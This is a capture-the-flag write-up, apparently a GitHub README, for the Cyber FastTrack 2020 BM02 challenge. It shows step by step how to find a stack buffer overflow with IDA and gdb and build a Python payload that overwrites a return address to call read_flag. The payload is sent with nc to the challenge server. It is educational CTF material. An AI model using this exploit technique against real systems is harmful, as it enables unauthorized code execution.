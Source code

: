 # Cyber FastTrack Spring 2020- BM02 Solution
In this challenge, we use buffer overflow to display the flag.\
BM02.PNG\
![image info](BM02.PNG)
* This is the challenge for BM02.

BM02_1.PNG\
![image info](BM02_1.PNG)
* We use IDA software to display the structure of this program. There are the exploitable(char const*) function and the read_flag(void) function. Also, there are some local variales that stored in the explotable() function. For a better understanding of the program, we need a gdb debugger.

BM02_2.PNG\
![image info](BM02_2.PNG)
* In the terminal, we type `gdb <name of your program>` to start the debugger.
* Type `run` to run the program in the debugger.
* Hold down the Ctrl key and press c

BM02_3.PNG\
![image info](BM02_3.PNG)
* Notice that, if we look through the program, we know that we must enter `add_candidate` in order to add employee and use the exploitable() function.

BM02_4.PNG\
![image info](BM02_4.PNG)
* Enter `disas exploitable(char const*)`
* Enter `c` to continue without paging
* we use break *address to set a break point. In this case, we use 0x5655634d.


BM02_5.PNG\
![image info](BM02_5.PNG)
* Type `break *0x5655634d`
* Type `run`
* Type `add_candidate`

BM02_6.PNG\
![image info](BM02_6.PNG)
* Enter one information for each of the First Name, Last Name, and Job Title.
  * In this case, I entered `First` as the First Name, `Last` as the Last Name, and `Title` as the Job Title.
* Then, you will encounter an breakpoint at `Breakpoint 1, 0x5655634d in exploitable(char const*) ()`

BM02_7.PNG\
![image info](BM02_7.PNG)
* Enter info frame to get the return address that stored at eip. In this case, the return address is `0x56557492`. 

BM02_8.PNG\
![image info](BM02_8.PNG)
* Display the current and the next 199 stack pointer.
* Enter `x/200x $sp`
* The addresses that are 0x00000000 are local variables that we need to fill in before accessing/changing the return address. So in a text file, we enter the following and save it as a python file.
```python
print("add_candidate")
print('A'*20)
```
BM02_9.PNG\
![image info](BM02_9.PNG)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type `y` to start from the beginning
* In order to see the differences, we enter x/200x $sp to display the current and the next 199 stack pointer.
	From BM02_9.PNG, we see that there are twenty-five `0x00000000` remaining for us to fill out and then we have to overwrite the `0xdeadbeef`.
	Next, in order for us to change to return address, we need to overwrite the addresses that are before the return address. There are three adresses remaining to changes. Then, we changes the return address to `0x5655615d`. Note: we get `0x5655615d` from `disas read_flag` in the debugger. Remember, we have to write the addresses in reverse byte order.
	So, we changes the contents of the python file to:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
```	

BM02_10.PNG\
![image info](BM02_10.PNG)
* Hold down the Ctrl key and press c to exit the current program
* To run the program again, we type `run < <(python bm02.py)`
* Type y to start from the beginning
* Enter `info frame` to see if the return address changed to `0x5655615d`.

BM02_11.PNG\
![image info](BM02_11.PNG)
* Use `si` to execute one instruction at a time to see if the program enters the `read_flag(void)` function.
* We see that the program enters the `read_flag(void)` function.

BM02_12.PNG\
![image info](BM02_12.PNG)
* Use `si` to execute one instruction at a time and we will see the flag eventually.

BM02_13.PNG\
![image info](BM02_13.PNG)
* In order to get the server to response to our request, we need to print out the last name and the job title. So we edit the python file as below:
```python
print("add_candidate")
print('A'*120 + '\xef\xbe\xad\xde' + 'A'*12 + '\x5d\x61\x55\x56')
print("Last")
print("Title")
```	
* Send the bm02.py to the server and it would prints out the flag.
  * `python bm02.py | nc bm02.allyourbases.co 9003`





	
